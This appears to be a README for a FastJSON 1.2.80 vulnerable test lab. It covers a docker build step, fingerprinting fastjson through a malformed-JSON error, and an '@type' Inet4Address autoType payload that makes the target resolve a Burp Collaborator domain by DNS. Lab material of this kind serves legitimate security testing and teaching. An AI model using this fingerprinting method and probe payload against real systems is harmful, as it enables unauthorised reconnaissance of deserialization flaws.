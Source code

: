 ##  FastJSON-1.2.80-test-lab
 
* Run application using docker

```
docker build --network=host --no-cache .
```

## How to know if the targert application is using **fastjson**?

- Send Invalid JSON data and application will return 400 response exposing fastjson use in error message.

```json
{"test":"nonexistent"
```
<img src="/screenshot/invalid-json-400-response.png">

## Exploit Payload

Use Following payload to receive DNS request from the vulnerable application.

```
{"test": {
"@type":"java.net.Inet4Address",
"val": "asdfasdfasdf.burpcollaborator.net"
}
```

Credits:
https://github.com/vulhub/vulhub/tree/master/fastjson

